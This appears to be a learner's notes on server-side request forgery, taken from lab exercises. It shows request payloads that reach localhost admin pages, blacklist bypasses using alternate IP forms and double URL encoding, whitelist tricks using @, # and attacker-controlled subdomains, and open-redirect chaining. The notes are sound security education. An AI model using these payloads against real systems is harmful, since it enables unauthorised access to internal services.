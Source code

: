 ### Localhost as the target url
> Note: The administrative interface might listen on a different port number

Let's say there's an endpoint which accepts the following req.body:
```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```
The result of that request is returned to the client. We can change the req.body to:
```
stockApi=http://localhost/admin
```
which may return us an html for the admin page


### SSRF with blacklist-based input filter
Ways of circumventing blacklists:
- Use an alternative IP representation of 127.0.0.1, such as 2130706433, 017700000001, or 127.1.
- Register your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an http: to https: URL during the redirect has been shown to bypass some anti-SSRF filters.

#### Lab:
Let's say we're trying to SSRF into http://localhost/admin but the input is blacklisted
We can try to avade the blacklist by double url encoding "a" letter from /admin
And the req.body becomes: stockApi=http://127.1/%25%36%31dmin

### SSRF with whitelist-based input filters
The URL specification contains a number of features that are likely to be overlooked when URLs implement ad-hoc parsing and validation using this method: 

- You can embed credentials in a URL before the hostname, using the `@` character. For example:
```
https://expected-host:fakepassword@evil-host
```

- You can use the `#` character to indicate a URL fragment. For example:
```
https://evil-host#expected-host
```

- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```
https://expected-host.evil-host
```

- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request. You can also try double-encoding characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.

- You can use combinations of these techniques together.

#### Lab:
THere's a check stock endpoint with the following req.body:
```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1
```
If we change it to:
```
stockApi=http://localhost OR stockApi=http://127.0.0.1
```
We get an err:
```
External stock check host must be `stock.weliketoshop.net`
```
Which indicates that there's a whitelist that contains `stock.weliketoshop.net`

We play around with it and try the following:
```
stockApi=http://random#stock.weliketoshop.net
```
which gives us back the same error:
```
"External stock check host must be stock.weliketoshop.net"
```
which means that it treats random as the url and `stock.weliketoshop.net` as an element on the website

We can try to double-url-encode `#` character and see what we get as a response
```
stockApi=http://localhost%2523stock.weliketoshop.net
```
After double-url encoding it, we get the same err:
```
"External stock check host must be stock.weliketoshop.net"
```
But if we add `@` - we can get a response from `localhost` (which in this case contains a link to `/admin`)
```
stockApi=http://localhost%2523@stock.weliketoshop.net
```

### Open redirection
Let's say the user-submitted URL is strictly validated
But let's also say there are 2 different endpoints:
```
POST /product/stock HTTP/2 
req.body = stockApi=/product/stock/check?productId=1&storeId=1
```
And the second:
```
GET /product/nextProduct?currentProductId=1&path=/product?productId=2 HTTP/2
```

We can try to modify the req.body of the first endpoint to the following:
```
stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
```
And it will include the contents of /admin in the POST /product/stock response
In other words server will return  302 redirection to whatever is specified in `path` param 

## Blind SSRF vulnerabilities
> Note: It is common when testing for SSRF vulnerabilities to observe a DNS look-up for the supplied Collaborator domain, but no subsequent HTTP request. This typically happens because the application attempted to make an HTTP request to the domain, which caused the initial DNS lookup, but the actual HTTP request was blocked by network-level filtering. It is relatively common for infrastructure to allow outbound DNS traffic, since this is needed for so many purposes, but block HTTP connections to unexpected destinations. 

